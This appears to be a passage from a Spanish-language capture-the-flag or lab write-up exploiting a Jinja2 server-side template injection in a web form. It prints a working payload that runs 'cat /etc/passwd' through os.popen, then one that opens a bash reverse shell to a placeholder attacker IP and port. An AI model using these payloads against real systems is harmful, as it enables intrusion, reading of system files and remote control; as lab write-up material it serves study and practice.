 Lo modificamos para ver el passwd

```bash 
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
```

Insertamos el codigo en el formulario y damos al enlace de abajo

![sstiverdejo.png](assets/sstiverdejo.png)

Nos da todo el passwd, podemos conseguir una reverse shell:

![passwdverdejo.png](assets/passwdverdejo.png)

En la web RevShells obtenemos una revserse shell one liner de bash y la ponemos al código:

```bash
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/TU_IP/TU_PUERTO 0>&1"').read() }}
```
